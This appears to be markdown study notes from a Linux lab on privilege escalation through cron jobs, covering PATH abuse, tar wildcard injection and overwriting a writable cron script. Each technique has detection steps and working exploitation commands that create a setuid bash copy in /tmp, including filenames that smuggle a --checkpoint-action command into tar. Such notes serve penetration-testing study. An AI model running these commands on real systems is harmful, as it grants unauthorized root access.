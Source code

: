 #Linux #PrivEsc #Cron #ScheduledTasks #BinaryPaths #Wildcards #Overwrites 

- ==Overwrites is most common (3rd one down)

# Cron (Path)
#BinaryPaths 
## **Detection**
Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the value of the “`PATH`” variable.
	- Note jobs running every minute or few minutes
	- `* * * * * root script.sh`
	- `5 * * * * root /usr/local/bin/script.sh`
- Can also use `systemctl list-timers --all`

## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
```
2. In command prompt type: `chmod +x /home/user/overwrite.sh`
3. Wait 1 minute for the Bash script to execute.
4. In command prompt type: `/tmp/bash -p`
5. In command prompt type: `id`

---

# Cron (Wildcards)
#Wildcards
## **Detection**

Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “`/usr/local/bin/compress.sh`”
3. In command prompt type: `cat /usr/local/bin/compress.sh`
4. From the output, notice the wildcard (`*`) used by ‘`tar`’.
	- Can manipulate wildcards!
	- e.g. `/usr/local/bin/compress.sh` script reads to compress `/home/user` folder and tar zip to `/tmp`
## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/runme.sh
```
2. `chmod +x /home/user/runme.sh`
3. `touch /home/user/--checkpoint=1`
4. `touch /home/user/--checkpoint-action=exec=sh\ runme.sh`
5. Wait 1 minute for the Bash script to execute.
6. In command prompt type: `/tmp/bash -p`
7. In command prompt type: `id`

---

# Cron (Overwrites)
#Overwrites

## ﻿Detection
Linux VM

1. In command prompt type: `cat /etc/crontab`
2. From the output, notice the script “`overwrite.sh`”
3. In command prompt type: `ls -l /usr/local/bin/overwrite.sh`
4. From the output, notice the file permissions.

## **Exploitation**
Linux VM

1. In command prompt type:
```
echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
```
2. Wait 1 minute for the Bash script to execute.
3. In command prompt type: `/tmp/bash -p`
4. In command prompt type: `id`

---

# CTF Challenge

